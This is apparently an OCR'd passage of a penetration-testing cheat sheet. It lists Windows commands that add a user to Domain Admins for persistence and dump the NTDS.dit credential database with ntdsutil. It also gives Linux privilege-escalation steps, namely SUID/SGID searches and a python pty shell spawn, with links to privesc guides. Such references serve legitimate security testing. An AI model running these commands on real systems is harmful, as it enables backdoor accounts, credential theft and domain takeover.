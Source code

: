 **Persistence**

- net user username "password" /ADD

- net group "Domain Admins" %username% /DOMAIN /ADD

**Gather NTDS.dit file**

- `ntdsutil`

  `activate instance ntds`

  `ifm`

  `create full C:\ntdsutil`

  `quit`

  `quit`

# **Privilege Escalation**

## **Linux:**

Find Binaries that will execute as the owner

- find / -perm -u\=s -type f 2>/dev/null

Find binaries that will execute as the group

- find / -perm -g=s -type f 2>/dev/null

Find sticky-bit binaries

- find / -perm -1000 -type d 2>/dev/null

If Python is executable as root

- python2.7 -c "import pty;pty.spawn('/bin/sh');"

[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

[https://github.com/pentestmonkey/unix-privesc-check](https://github.com/pentestmonkey/unix-privesc-check)

## **Windows:**

[https://github.com/pentestmonkey/windows-privesc-check](https://github.com/pentestmonkey/windows-privesc-check)

[http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

[https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)

# **Command Injection**
